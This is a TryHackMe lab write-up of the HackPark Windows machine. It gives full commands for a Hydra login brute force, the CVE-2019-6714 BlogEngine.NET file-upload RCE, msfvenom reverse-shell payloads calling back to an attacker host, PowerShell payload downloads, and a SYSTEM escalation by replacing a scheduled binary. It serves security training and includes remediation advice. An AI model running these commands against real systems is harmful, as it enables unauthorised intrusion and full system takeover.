# Lab 14: HackPark - BlogEngine.NET RCE + Scheduled Task Privilege Escalation

**Platform:** TryHackMe  
**Difficulty:** Medium  
**OS:** Windows Server 2012 R2  
**Date:** 2026-03-07

---

## Overview

HackPark is a Windows machine running a BlogEngine.NET blog. The attack chain involves brute forcing the admin login using Hydra, exploiting an authenticated file upload vulnerability in BlogEngine.NET 3.3.6.0 to gain an initial foothold, and escalating privileges by abusing a misconfigured scheduled task that executes a binary as SYSTEM from a world-writable directory. The lab is completed twice: once using Metasploit for the privilege escalation, and once entirely manually using winPEAS and netcat.

---

## Target Information

| Field | Value |
|---|---|
| Hostname | HACKPARK |
| IP Address | 10.66.179.121 |
| OS | Windows Server 2012 R2 (6.3 Build 9600) |
| User | IIS APPPOOL\Blog |

---

## Tools Used

- nmap
- Hydra
- Burp Suite
- msfvenom
- Metasploit Framework (Task 2 only)
- winPEAS
- Python HTTP server
- netcat
- exploit 46353.cs (ExploitDB)

---

## Attack Chain

### Phase 1: Reconnaissance

An nmap scan reveals the open ports on the target.



Key findings:
- Port 80: IIS 8.5 running BlogEngine.NET
- Port 3389: RDP

### Phase 2: Web Enumeration

Browsing to port 80 reveals a BlogEngine.NET blog. The homepage displays a clown image identified via reverse image search as Pennywise from IT.




The admin login page is located at `/Account/login.aspx`.



---

## Task 2: Exploitation with Metasploit

### Brute Forcing the Login with Hydra

The login form uses ASP.NET WebForms with `__VIEWSTATE` and `__EVENTVALIDATION` tokens embedded in each POST request. These tokens expire between requests which causes false positives when running Hydra at high thread counts. Burp Suite was used to capture a live POST request and extract valid tokens before running Hydra.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.66.179.121 http-post-form \
"/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=<token>&__EVENTVALIDATION=<token>&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

**Credentials found:** `admin:1qaz2wsx`

> **Note:** ASP.NET VIEWSTATE tokens expire between requests. Running Hydra at high thread counts produces false positives because the server rejects requests with stale tokens regardless of the password. Using fresh tokens captured from Burp Suite resolved this. Burp Suite Intruder handles this scenario more reliably since it can fetch a new token per attempt.



### Admin Panel Access

Logged into the BlogEngine.NET admin panel at `/admin`. The BlogEngine.NET version (3.3.6.0) was confirmed under the About section.



### Remote Code Execution via CVE-2019-6714

BlogEngine.NET 3.3.6.0 is vulnerable to an authenticated directory traversal and arbitrary file upload vulnerability. An authenticated user can upload a malicious `.ascx` file through the post editor file manager. Navigating to a crafted URL causes the web server to execute the uploaded file.

**Exploit:** ExploitDB 46353.cs

```bash
searchsploit -m aspx/webapps/46353.cs
mv 46353.cs PostView.ascx
```

The file was edited to point to the attacker IP and listener port, then uploaded via the file manager in the post editor. Execution was triggered by browsing to:

```
http://10.66.179.121/?theme=../../App_Data/files
```

A reverse shell was caught as `IIS APPPOOL\Blog`.



### Upgrading to Meterpreter

A Meterpreter payload was generated, transferred to the target via PowerShell, and executed to establish a more stable session:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=5555 -f exe -o shell.exe
```

```powershell
powershell -c "Invoke-WebRequest http://<attacker_ip>:8000/shell.exe -OutFile C:\Windows\Temp\shell.exe"
```

### Privilege Escalation via Scheduled Task

Running `ps` in Meterpreter revealed `WScheduler.exe` spawning `Message.exe` from `C:\Program Files (x86)\SystemScheduler`. This directory was world-writable and `Message.exe` was being executed on a timer as SYSTEM.

A reverse shell payload was generated with the same name and used to replace the legitimate binary:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=6666 -f exe -o Message.exe
```

```powershell
powershell -c "Invoke-WebRequest http://<attacker_ip>:8000/Message.exe -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```

A Metasploit handler was set up on port 6666. When the scheduler fired, a SYSTEM shell was returned automatically.



**User flag (Jeff's Desktop):**



**Root flag:**



---

## Task 3: Manual Exploitation (No Metasploit)

### Stable Shell Without Metasploit

A non-Meterpreter reverse shell payload was generated and transferred to the target:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=7777 -f exe -o shell2.exe
```

```powershell
powershell -c "Invoke-WebRequest http://<attacker_ip>:8000/shell2.exe -OutFile C:\Windows\Temp\shell2.exe"
```

The shell was caught using netcat on port 7777.

### Manual Enumeration with winPEAS

winPEAS was pulled to the target and executed:

```powershell
powershell -c "Invoke-WebRequest http://<attacker_ip>:8000/winPEAS.bat -OutFile C:\Windows\Temp\winPEAS.bat"
C:\Windows\Temp\winPEAS.bat
```

winPEAS confirmed the same `WScheduler.exe` running `Message.exe` as SYSTEM and surfaced additional system information.

**OS Version:** Windows 2012 R2 (6.3 Build 9600)  
**Original Install Date:** 8/3/2019, 10:43:23 AM



### Privilege Escalation Without Metasploit

The same Message.exe replacement technique was applied. A new payload was generated, transferred, and placed in the SystemScheduler directory. When the scheduler fired, the shell was caught with netcat instead of Metasploit.

**Room completed:**



---

## Vulnerability Summary

### CVE-2019-6714 - BlogEngine.NET 3.3.6.0 Authenticated File Upload RCE

BlogEngine.NET 3.3.6.0 allows authenticated users to upload files through the post editor file manager without properly validating file type or path. An attacker can upload a malicious `.ascx` web shell and trigger its execution via a directory traversal in the theme parameter, resulting in remote code execution under the context of the IIS application pool.

### Scheduled Task Binary Replacement - SystemScheduler

The SystemScheduler service was configured to execute `Message.exe` from `C:\Program Files (x86)\SystemScheduler` on a recurring timer as SYSTEM. The directory was world-writable, allowing any user on the system to replace the binary with a malicious payload. When the scheduler fired, the payload executed with SYSTEM privileges.

**Remediation:** Restrict write permissions on service and scheduler binary directories to administrators only. Apply principle of least privilege to scheduled task execution accounts.

---

## Key Takeaways

- ASP.NET VIEWSTATE tokens complicate web brute forcing. Capturing fresh tokens from Burp Suite before running Hydra is necessary to avoid false positives
- CVE-2019-6714 requires valid credentials, making brute force a prerequisite step rather than an optional one
- Scheduled tasks running as SYSTEM that execute binaries from world-writable directories are a high severity misconfiguration. The attack requires no special tools once write access is confirmed
- winPEAS reliably flags this class of vulnerability under running processes and scheduled task enumeration
- The same attack chain works without Metasploit using only msfvenom, a Python HTTP server, PowerShell, and netcat